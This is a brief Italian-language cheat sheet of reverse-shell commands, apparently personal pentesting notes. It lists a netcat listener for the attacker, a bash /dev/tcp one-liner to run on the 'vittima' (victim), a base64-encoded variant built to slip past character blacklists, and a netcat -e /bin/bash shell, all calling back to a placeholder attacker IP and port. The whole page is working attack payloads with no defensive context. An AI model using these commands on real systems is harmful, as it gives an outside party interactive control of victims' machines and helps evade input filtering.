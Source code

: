 # Reverse Shell


host:
```
nc -nvlp <PORT>
```

## bash

vittima:
```
bash -c “bash -i >& /dev/tcp/{IP}/{PORT} 0>&1”
```

### Blacklist

se blacklist di caratteri

```
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64

bash -c {<BASE64_ENCODE>}|{base64,-d}|{bash,-i}
```



## netcat

```
nc <IP> <PORT> -e /bin/bash
```
